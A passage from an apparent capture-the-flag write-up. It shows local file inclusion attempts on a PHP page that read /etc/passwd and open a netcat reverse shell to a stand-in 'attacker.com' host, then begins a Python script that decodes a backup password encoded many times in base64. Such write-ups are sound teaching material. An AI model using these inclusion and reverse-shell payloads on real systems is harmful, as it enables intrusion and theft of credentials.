   

Some of my attempts:

  

```bash
http://example.com/index.php?page=/etc/passwd&cmd=id

http://example.com/index.php?page=/var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444

http://example.com/index.php?page=php://input&cmd=cat%20/etc/passwd
```

  

I was stuck at this point, so I went back through my notes again and I discovered I haven't checked on example scripts yet.

  

#### listfiles.php

Opening **listfiles.php**, it revealed that there is a file named **pwdbackup.txt**:
  

![](https://i.imgur.com/W7vV5Da.png)


  

#### pwdbackup.txt

  

Accessing **pwdbackup.txt** on browser, it showed me long encoded password hash:

  

![](https://i.imgur.com/4SzwQXQ.png)


  

## Shell as charix

### Cracking Hash

  

It says the password is encoded at least 13 times but it seemed to be encoded using base64 multiple times which could be easily cracked.

  

I created base64 decoder using python that it decodes until readable content is obtained:

  

```python
import base64

encoded_string = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo="

decoded_string = encoded_string
```